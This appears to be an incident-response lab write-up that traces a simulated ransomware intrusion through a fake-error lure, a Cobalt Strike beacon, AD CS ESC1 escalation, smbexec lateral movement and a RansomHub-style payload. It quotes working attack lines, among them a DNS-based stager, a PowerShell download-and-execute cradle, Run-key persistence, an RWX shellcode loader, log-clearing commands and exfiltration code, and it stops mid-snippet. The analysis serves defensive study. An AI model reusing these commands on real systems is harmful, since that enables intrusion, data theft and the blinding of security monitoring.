### <span class="hl">TL;DR</span>

On the morning of March 22, 2026, Maromalix Corporation suffered a targeted ransomware attack. The threat actor initially compromised the public-facing website, displaying a fake error message that convinced a user omar.hassan to execute a malicious command. This fetched a *Cobalt Strike* beacon hidden in DNS records. The attacker dropped SharpHound and Certify to enumerate AD CS. They then exploited **CVE-2025-24071** using a malicious *.library-ms* file on network shares to steal credentials. The attacker escalated privileges via an **ESC1** certificate attack, impersonating a high-privileged account mohamed.elfeky. Moving laterally using *smbexec.py*, the attacker temporarily disabled logging services , cleared event logs, and deployed the **RansomHub** payload.

### <span style="color:red">Stage 0: Initial Access</span>

#### Fake Error Message and Execution

Knowing that the company's public-facing website was compromised with a fake error message, which convinced the user to run a malicious command, I for process creation events where explorer spawned cmd or PowerShell.
At 14:28:43 user omar.hassan on WKSTN-01 executed this command:
```powershell
"C:\Windows\system32\cmd.exe" /c "for /f "tokens=1*" %%i in ('n^s^^l^^o^o^kup -timeout^=5 example.com  3.77.33.191 ^| findstr Name:') do %%j" & :: Set back and stay still and fixes will be applied now 
```
It is an interesting command, which queries an attacker-controlled DNS server that is pre-configured to return the next stage payload in the `Name:` field. Then, the command parses the result and executes the content of the that field.


Instantly after that, a powershell command was executed, which downloaded something named a from IP *35.158.162.78* and ran it.
```powershell
powershell  -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://35.158.162.78/a')) 
```



### <span style="color:red">Stage 1: Cobalt Strike beacon</span>

#### Stager Decode
The content of `a` was captured in event id 4104. We see a long base64 line.



With a decompression and immediate running at the end.



Instantly after that we can see the execution of a much larger PowerShell script. And after that, we see repeatedly Event ID 3 connections to *35.158.162.78*.


#### Custom Delegates
I used a beautifier to make the code more readable.
The script has 2 functions. The first dynamically resolves the memory address of a Win32 API function with GetProcessID and GetModuleHandle by reflecting into the already loaded System.dll. The second one generates a custom C# *delegate* type entirely in memory using System.Reflection.Emit. This is needed because PowerShell cannot execute code from a raw memory address; it requires a delegate - a blueprint that defines the function's expected parameters and return type, thereby enabling the script to cast raw memory pointers into callable functions.



#### RWX Injection
After that, we see a large base64 payload. It gets decrypted via an XOR operation with the value 35. It is then allocated in memory using the dynamically resolved `VirtualAlloc` API with the *0x40* parameter, which assigns **RWX** memory permissions, and executed.

```powershell
If ([IntPtr]::size -eq 8) {
    [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+yd...')

        for ($x = 0; $x -lt $var_code.Count; $x++) {
        $var_code[$x] = $var_code[$x] -bxor 35
    }

    $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
    $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
    [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

    $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
    $var_runme.Invoke([IntPtr]::Zero)
}
```

#### Cobalt strike beacon config
I recreated the decryption routine and received a 
```
beacon.bin: PE32+ executable (DLL) (GUI) x86-64, for MS Windows file.  
MD5: 7d96a4885b5331cd61479759ff2ae1eb
```
VirusTotal identifies it as a beacon from the Cobalt Strike framework.



I used the Cobalt Strike Configuration Extractor (CSCE). It is a "python library and set of scripts to extract and parse configurations from Cobalt Strike beacons".

```text
File: .\beacon.bin
payloadType: 0x00007530
payloadSize: 0x00000001
intxorkey: 0x00000001
id2: 0x00000000
Config found: xorkey b'.' 0x00044440 0x0004b000
0x0001 payload type                     0x0001 0x0002 8 windows-beacon_https-reverse_https
0x0002 port                             0x0001 0x0002 443
0x0003 sleeptime                        0x0002 0x0004 5000
0x0004 maxgetsize                       0x0002 0x0004 5242880
0x0005 jitter                           0x0001 0x0002 0
0x0007 publickey                        0x0003 0x0100 30819f300d06092a864886f70d01...
0x0008 server,get-uri                   0x0003 0x0100 '35.158.162.78,/updates'
0x0009 useragent                        0x0003 0x0100 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36'
0x000a post-uri                         0x0003 0x0040 '/submit'
0x0043 DNS_STRATEGY                     0x0001 0x0002 0
...truncated...
```

We can see that the beacon uses HTTPS to communicate with IP *35.158.162.78* over port 443 to the /updates endpoint. 
The victim is beaconing the malicious server every 5 seconds. Additionally, we see the *publickey* field, which is used by the malicious server to encrypt communications between the server and the beacon; if there is a command for the victim, it sends the result on the /submit endpoint. This is different from normal TLS certificates used when accessing the C2 domain with a browser. Also, we see a useragent:  

* Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

It uses a host header with value **fonts.googleapis.com**. Also as we see from the Build Metadata block, the beacon sends retrieved information in the `Cookie: user=` field with base64.

```text
...truncated...
0x001d spawnto_x86                      0x0003 0x0040 '%windir%\\syswow64\\rundll32.exe'
0x001e spawnto_x64                      0x0003 0x0040 '%windir%\\sysnative\\rundll32.exe'
0x000b Malleable_C2_Instructions        0x0003 0x0100
  Transform Input: [7:Input,4]
   Print
0x000c http_get_header                  0x0003 0x0200
  Build Metadata: [7:Metadata,3,2:user=,6:Cookie]
   BASE64
   Prepend user=
   Header Cookie
0x000d http_post_header                 0x0003 0x0200
  Const_header Content-Type: application/octet-stream
  Build SessionId: [7:SessionId,5:id]
   Parameter id
  Build Output: [7:Output,4]
   Print
0x0036 HostHeader                       0x0003 0x0080 'Host: fonts.googleapis.com\r\n'
...truncated...
```

### <span style="color:red">Stage 2: Post-Exploitation</span>
#### Persistence
There was no malicious activity before 18:49. 


At that time the attacker executed a command, which is performing persistence by creating an Update value to the `\Run` registry key.
```powershell
"C:\Windows\system32\cmd.exe /C reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Update /t REG_SZ /d ""powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://35.158.162.78:80/a'))"" /f"
```

And for some reason they checked the version of the installed .NET Framework. 


#### AD Recon
At 18:51 they dropped QA.exe in the C:\Users\omar.hassan\Q2_review\ folder and ran it. In description field we see *SharpHound.exe*. It is the data collector for BloodHound CE, it uses native win API functions and LDAP namespace functions to collect data from domain controllers and domain-joined Windows systems.


Also, they used the *certutil* LOLBin to obtain information about all certificate templates configured on **Active Directory Certificate Services**, which is a service used for managing PKI on a network, and saves it in the template_audit.log file. 
```powershell
certutil -v -template > C:\Users\omar.hassan\Q2_review\template_audit.log
```
Certificate templates are a set of rules that define what certificates can be distributed for what purposes, they define:
* Who can request certificates 
* What the certificate can be used for 
* Whether the subject name can be specified by the requester
* Authentication requirements for enrollment  
They can be used in **ESC techniques** for privilege escalation attacks
Then they use *Certify.exe*, which is a tool to enumerate and abuse misconfigurations in AD CS.


Followed by basic network recon:
```cmd
C:\Windows\system32\cmd.exe /C nslookup DC01
C:\Windows\system32\cmd.exe /C nbtstat -a 10.10.11.154
C:\Windows\system32\cmd.exe /C net view \\DC01
```

#### Shares
At 19:20 the attacker put the 2026_Payroll_Adjustments.zip zip archive in the shares folders:
* \\DC01\Finance\
* \\DC01\IT-Helpdesk\



And then at 19:26 user nour.khalil on WKSTN-02 unpacked that archive on Finance and omar.hassan on IT-Helpdesk.



I tried to find the content of that archive, so I filtered for Event ID 5145, this event generates every time a network share file or folder is accessed. And I found that, right after unpacking, there was interaction with the file 2026_Payroll_Adjustments.library-ms.



*.library-ms* files are used for creating virtual folders with collections of similar files, called libraries. These files are XML files that define these libraries. This file has a tag `<simpleLocation>/<url>`, in which the addresses of **remote resources** can be written.

#### CVE-2025-24071
It is a vulnerability with a 7.5/10 score in Windows Explorer. The issue arises from the implicit trust and automatic file parsing behavior of `.library-ms` files in Windows Explorer. An unauthenticated attacker can exploit this vulnerability by constructing RAR/ZIP files containing a malicious SMB path. Upon decompression, this triggers an SMB authentication request, potentially exposing the user's NTLM hash.

I checked who had accessed this file:
* nour.khail
* omar.hassan
* ahmed.farouk


### <span style="color:red">Stage 3: Privilege escalation</span>

#### ESC1 attack
Knowing about possible ESC attacks, I first of all started looking for a certificate request, which identifies ESC1. I found that at 19:46 user khaled.ibrahim requested a certificate with:
```text
Attributes: CertificateTemplate:Maromalix-UserAuth
SAN:upn=mohamed.elfeky@maromalix.corp
```


ESC1 is the most straightforward AD CS attack. It exploits certificate templates that allow attackers to specify arbitrary Subject Alternative Names (SANs).
The vulnerability happens when a certificate template has:
* `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag enabled
* Client Authentication or Any Purpose EKU
* Domain Users enrollment permissions
* No manager approval required

When all these conditions align, the attacker can request a certificate for any user in the domain.

The next step after this attack is granting a TGT ticket. At 19:47 mohamed.elfeky requested it.


After that the user authenticated to four machines almost simultaneously.



### <span style="color:red">Stage 4: Lateral Movement</span>

#### Logs services` stopping

At all compromised machines they started executing commands with an interesting pattern, which indicates *smbexec.py*. It is part of the Impacket tools and allows an attacker to launch programs remotely. It’s similar to PsExec, but it uses the SMB protocol to get command outputs.


smbexec works like this: The attacker authenticates on the target system, and a service is created. The service runs the command. The command output is saved to a file. The attacker gets the output from either the tool accessing the *C$* share on the target system and copying it, or the target system will access a share on the source system.

On each compromised machine, these commands were executed:

```text
19:51 - cd
19:51 - tasklist /v 
19:52 - sc query
19:52 - sc stop "filebeat"
20:02 - wevtutil cl "Microsoft-Windows-Sysmon/Operational"
20:02 - wevtutil cl Security
20:02 - wevtutil cl "Microsoft-Windows-PowerShell/Operational"
20:03 - wevtutil cl System
20:03 - sc start "filebeat"
20:03 - sc start "winlogbeat"
20:03 - sc start "splunkforwarder"
```

The attacker stopped services *filebeat, winlogbeat, and splunkforwarder* at 19:52 to prevent the SIEM from receiving logs. From 19:52 to 20:02 we have no logs. After that, the attacker cleared the sysmon, security, system, and powershell logs by using the *wevtutil  cl* utility and after that started the services back to avoid attracting attention.

I checked MFT and $J logs in that period on WKSTN-01, WKSTN-02 and DCO1 machines, and there the attacker created a binary file Missme.exe


And after that encrypted files with new extension *.94ccaa* begin appeared. 
hi

#### AV Detection

Also, I decided to check Windows Defender logs at compromised machines and I found that at 19:54 on WKSTN-03, 2 minutes after SIEM logs stopped, the attacker downloaded from *3.75.76.243:4422* the same **Missme.exe** file and stored it in C:\Windows\Temp\


This payload was caught, quarantined, and identified by Windows Defender locally on WKSTN-03 as `Trojan:MSIL/Lazy.BAC!MTB`. So, on this specific host, it didn't execute.


### <span style="color:red">Stage 5: Ransomware analysis</span>

#### Static Analysis
I used a script for dumping quarantined files from windows defender and I got a ransomware binary.


It is a binary written in C#, it has no high entropy, which means it isn't packed or obfuscated. So I decided to do static analysis with **dnSpy**

The file has these functions.


From the Main function, the ransomware encrypts these targets:
* `C:\Users\<Username>\*` (personal folders, excluding system/shared)
* `C:\Shares` (local shared folder)
* `\\<Network_Server>\*` (all folders on the remote file server)

It targets these files:

```csharp
{
    ".docx",
    ".doc",
    ".xlsx",
    ".xls",
    ".pptx",
    ".ppt",
    ".pdf",
    ".txt",
    ".csv",
    ".rtf",
    ".jpg",
    ".jpeg",
    ".png",
    ".gif",
    ".bmp",
    ".mp4",
    ".avi",
    ".mov",
    ".mkv",
    ".zip",
    ".rar",
    ".sql",
    ".mdb",
    ".accdb"
};
```

It can perform self-delete:
```cmd
ping 127.0.0.1 -n 10 > nul & del /f /q \"C:\\Windows\\Prefetch\\MISSME*\" & del /f /q \"{0}\"
```

It exfiltrates data to `http://35.158.162.78:8080/upload`:

```csharp
    try
    {
        byte[] data = File.ReadAllBytes(Program.StageZip);
        using (WebClient webClient = new WebClient())
        {
            webClient.Headers.Add("X-Victim", Environment.MachineName);
